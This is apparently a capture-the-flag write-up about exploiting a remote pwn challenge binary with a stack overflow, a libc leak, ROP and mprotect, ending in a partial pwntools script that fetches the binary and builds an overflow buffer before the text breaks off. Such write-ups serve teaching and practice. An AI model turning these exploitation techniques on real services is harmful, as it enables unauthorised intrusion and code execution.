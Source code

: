 This worked some times. In some instances the addresses were totally different. I didn't bother to figure out what was going on since it wasn't hard to get this particular case working and I wanted to move on to the exploitation. 

We were informed that ASLR was disabled on the server, and there was no stack canary. The only obstruction was NX. I grabbed libc from the server hosting Pwn100 in the hopes that it was the same one used for this challenge. I went to bed and handed the challenge off to barrebas. 

Barrebas figured out how to leak libc's base address, and from there he was able to modify the exploit to leak more data out. Thanks to that, we had access to a wider range of ROP gadgets and the functions in libc. He also found the socket file descriptor used by the server to communicate with us. 

We initially tried to get a shell, however nothing was working. A reverse shell I setup would connect briefly and then disconnect before I could do anything. Locally it worked, but remotely it was having issues. So much for the easy route. Based off Pwn100, I assumed the flag was in file called flag, and so I started to put together an exploit that would open the flag file, read it, and then write it back to us.

Due to NX, the stack wasn't executable. I decided to use mprotect() on addresses 0x00601000 to 0x00602000 to make it RWX. The plan was to copy the second stage payload in there which would perform the actual open/read/write of the flag. 

```python
#!/usr/bin/env python
from pwn import *
import time
import sys

context(os="linux", arch="amd64")

print "saving binary as \"mybin\""
f = open("mybin", "w")

r = remote("52.20.10.244", 8888)
d  = r.recvall()

f.write(d)
f.close()

e = ELF("./mybin")

# get the buffer size, port number, and max bytes to read
bufsiz = e.read(0x400781, 7)[3:]
port = e.read(0x4007d4, 3)[1:]
toread = e.read(0x40082e, 3)[1:]

bufsiz = u32(bufsiz) - 8            # bufsiz is size of stack frame - 8
port = u32(port + "\x00\x00")
toread = u32(toread + "\x00\x00")

print "port:", port
print "toread:", toread
print "bufsiz:", bufsiz

# see if this binary is exploitable
if toread > bufsiz:
    print "exploitable!"

    r = remote("52.20.10.244", port)

    buf = ""
    buf += "A"*(bufsiz-len(buf))

    base = 0x400690
    write_at_got = 0x601018
    oneshotrce = 0x4652c
```
